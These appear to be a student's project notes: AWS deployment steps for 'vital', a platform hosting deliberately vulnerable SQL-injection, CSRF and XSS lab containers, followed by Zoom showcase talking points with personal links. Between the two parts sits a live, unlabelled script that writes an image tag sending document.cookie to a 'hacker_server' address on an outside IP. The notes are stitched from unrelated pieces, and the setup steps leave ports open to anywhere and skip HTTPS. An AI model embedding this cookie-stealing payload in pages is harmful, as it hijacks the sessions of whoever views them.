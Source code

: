
---
- **setup AWS**

- sandboxes:
    - create security group: sandbox-sg -> inbound: 5000 and 3001 anywhere.
    - creat cluster: name: vital-sandbox
    - create Repo: public so it's easier to share if you want in future.
    - setup the aws local credentials 
        - for the aws educate->vocareum->account details copy and paste in you local machines ~/.aws/credentials.
        - for personal or UCI email need to create  a user and generate access key.
    - follow *push command* instructios to updated images.
        - the tags and push command are modified to follow single repor structure as:
        ```sh
        docker tag sql-inj-node:latest 999744867675.dkr.ecr.us-east-1.amazonaws.com/vital_poc:sql-inj-node
        docker push 999744867675.dkr.ecr.us-east-1.amazonaws.com/vital_poc:sql-inj-node
        ```
    - upload all 4 docker images with names (do not need to be exact as we'll use their URI)
        - sql-inj-node
        - sql-inj-flask
        - csrf-node
        - xss-stored
    - create tasks (**NEEDS TO BE EXACT** else will need to update the corresponding in the PROD CONFIG).
        - csrf-node-task
        - sqlInjection-node-task
        - sqlInjection-task
        - xssStored-task
    
        - add container for corresponding docker images URI from ECR repo.
        - port mapping add: 3001 and 5000
        - select min task memory(0.5) and task cpu(0.25).
        - check by run task.
            - cluster: vital-sandbox
            - VPC and subnets which are available.

- vital website
    - create IAM Roles
        - vitalEC2 Role: EC2 -> AmazonECS_FullAccess
    
    - create Security groups
        - vital-ec2: inbound: 4200, 3000, 22. outbound: all.


    - I need to share the AMI. from AMI side tab.
    
    - create a load balancer
        - type: application load balancer.
        - scheme: internet-facing
        - select all subnets
        - listeners: port 80
        - skip secure listeners.(no 443 certificate available).
        - create a new security group port 80 for input anywhere.
        - create a target-group: vital-tg.
            - type: instance.
            - **TARGETT GROUP PORT 3000**
            - **Advanced health check settings**
                - port override: 3000

        - **SET IDLE TIMEOUT TO 180 seconds**

    - create Launch configuration: vital-lc-t2-small
        - ami ami-0cde1cfd4f7ac7c6d vital-ec2 from aws educate account.
        - instance type t2.small as t2.nano can't compile the angular code.
        - IAM instance profile: vitalEC2.
        - choose ssh key.
    
    - create auto scaling group.
        - name: vital-asg
        - switch to launch configuration and select above vital-lc-t2-small launch configuration.
        - select all subets of default VPC.
        - attach to an existing load balancer created above.
            - select above created target group: vital-tg.
        - **ADD TAGS** important for code deploy.
            - add tag -> key: service value: vital
    
    BEFORE CODE DEPLOY verify if EC2 instance is spawning.
    - Code Deploy.
        - create application -> name: vital compute platform: EC2/On-premise
        - create deployment group -> name: vital-dg **Service Role**: Vital_CodeDeploy
        - Environment configuration: Amazon EC2 instances: Key: service value: vital
        - select: My application is stored in GitHub
        - github token: vnt-github (your github Oauth).
        - commit from branch
            - **WHICH HAVE YOUR PROD FARGATE SUBNET and SECURITY GROUP IN CODE CONFIG**.
            - **WHICH HAVE YOUR UI PROD URL AS THE ALB DNS**.
        - **DURING DEPLOYMENT** select the git branch you want and then
            - tick **Don't fail the deployment to an instance if this lifecycle event on the instance fails**.
            - tick **Overwrite the content**


<script>
  document.write(
    '<img src="http://54.144.60.113:5000/hacker_server/submit_cookie?cookie=' +
      escape(document.cookie) +
      '" />',
  );
</script>


---
- camera look at it.
- zoom -> participants -> rename : Vineet Bharot MCS CO '21
- "Hi! Welcome!", "Thank you for joining us today!"

- if zoom waiting: share link to assets.

- "I am Vineeet from team vitaL"
- "First of All: Do you have any burning question? i'll be happy to help with"
- gauge how much they know and who they are.
    - "may i know if you've reviewed some of the assets? background so we can tailor our presentation".

- if not seen assets:
    - summarize your project and offer to show demo or ad.

- if have seen assets:
    - talk about what some of your goals were for project.
    - how you set to achive them.

- show off
    - live demos
    - pitching with ad, executive summary & pitch deck.
    - skils knowledge gained.

- network
    - expand your network
    - explore job oppertunities
    - share MCS exp
    - share post-grad plans
    - passions/intersts

- encourage to recruite from MCS
- offline docs.

- resume: https://drive.google.com/file/d/1PjoeiT1bn8lbK5N2SQHIxPospZz18n2F/view?usp=sharing
- https://www.linkedin.com/in/vineet-bharot/
- https://github.com/vnt-github

- need architectural diagram.
- how to sell their product.
- architecutre used.

- pitch deck, live demo, QA.

- email thanks you.
    - and chance to connect.